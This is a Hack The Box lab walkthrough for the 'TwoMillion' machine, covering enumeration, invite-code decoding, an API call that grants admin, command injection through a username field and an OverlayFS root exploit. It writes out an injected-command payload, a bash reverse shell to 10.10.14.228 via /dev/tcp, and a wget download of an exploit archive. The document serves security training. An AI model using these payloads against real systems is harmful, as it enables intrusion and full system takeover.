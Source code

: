 # HTB - TwoMillion

**IP Address:** `10.10.11.221`  
**OS:** Ubuntu  
**Difficulty:** Medium  
**Tags:** Web, ROT13, Base64, Cookie Injection, Command Injection, Reverse Shell, OverlayFS

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping -c 1 10.10.11.221
```

✅ Host is alive

### 1.2 Port Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.11.221
nmap -sC -sV -p22,80 10.10.11.221 -oN targeted
```

Found:

- 22/tcp → SSH
- 80/tcp → Apache/2.4.52 (Werkzeug 3.0.3 Python/3.10.12)

---

## 2. Web Enumeration

Added to `/etc/hosts`:

```
10.10.11.221 2million.htb
```

Website is a clone of the original HTB interface from 2017. Registration requires hacking the invite system.

---

## 3. Decoding the Invite Logic

On the invite page, ran in browser console:

```js
makeInviteCode()
```

Found ROT13 encoded string. Decoded via terminal:

```bash
echo "ROT13_STRING" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```

Result:

```
Make a POST request to /api/v1/invite/generate
```

Sent the POST request:

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq
```

Decoded the Base64 invite key:

```bash
echo "M0VKMFUtUklFUVEtRVZDVEEtNzFIWFc=" | base64 -d
```

Used the invite key to register and access the site.

---

## 4. API Fuzzing

Tested endpoints with:

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

Initially returned 401 Unauthorized. Tried again with session cookie:

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=<cookie>" | jq
```

Endpoints discovered:

- `/api/v1/user/vpn/generate`
- `/api/v1/admin/auth`
- `/api/v1/admin/vpn/generate`

---

## 5. Privilege Escalation via API Abuse

Tried PUT method to elevate to admin:

```bash
curl -X PUT http://2million.htb/api/v1/user/settings -H "Cookie: PHPSESSID=<cookie>" -H "Content-Type: application/json" -d '{"email":"admin@htb.local","is_admin":1}'
```

✅ Became admin

---

## 6. Command Injection & Shell Access

Tested command injection via `username` field:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=<cookie>" -H "Content-Type: application/json" -d '{"username": "moka; id #"}'
```

✅ Confirmed command injection

Spawned reverse shell:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=<cookie>" -H "Content-Type: application/json" -d '{"username": "moka; bash -c \"bash -i >& /dev/tcp/10.10.14.228/443 0>&1\";"}'
```

Listener:

```bash
nc -nlvp 443
```

---

## 7. Post Exploitation

Stabilized shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Found `.env` file with admin credentials.

Logged in as `admin`.

🏁 **User flag obtained**

---

## 8. Root Privilege Escalation via OverlayFS

Checked user-owned files:

```bash
find / -user admin 2>/dev/null | grep -vE "sys|proc"
```

Found mail:

```bash
cat /var/mail/admin
```

Mentioned vulnerability: OverlayFS + FUSE

---

## 9. Exploit OverlayFS

1. Downloaded exploit from GitHub
2. Transferred via HTTP server:
   ```bash
   python3 -m http.server 80
   wget http://10.10.14.228/exploit.zip
   ```
3. Extracted & compiled:
   ```bash
   unzip exploit.zip
   make all
   ```
4. Reconnected as `admin` via SSH and executed:
   ```bash
   ./exp
   ```

✅ Root access obtained  
🏁 **Root flag retrieved**

---

# ✅ MACHINE COMPLETE
